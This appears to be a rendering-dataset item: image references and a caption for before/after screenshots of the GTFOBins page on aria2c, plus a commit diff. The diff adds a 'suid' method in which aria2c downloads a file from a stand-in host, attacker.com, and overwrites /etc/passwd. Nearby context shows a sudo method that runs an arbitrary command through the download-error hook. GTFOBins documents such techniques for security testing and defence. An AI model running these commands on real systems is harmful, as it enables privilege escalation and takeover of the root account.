

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/aria2c.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add SUID method to aria2c
Found this new method of abusing aria2c's suid for privilege escalation.

```diff
--- a/_gtfobins/aria2c.md
+++ b/_gtfobins/aria2c.md
@@ -17,6 +17,10 @@ functions:
         echo "$COMMAND" > $TF
         chmod +x $TF
         sudo aria2c --on-download-error=$TF http://x
+  suid:
+    - code: |
+        aria2c -d /etc/ -o passwd "http://attacker.com/passwd" --allow-overwrite=true
+    - description: Remote download and replace /etc/passwd with root privilege.
   limited-suid:
     - code: |
         COMMAND='id'
```
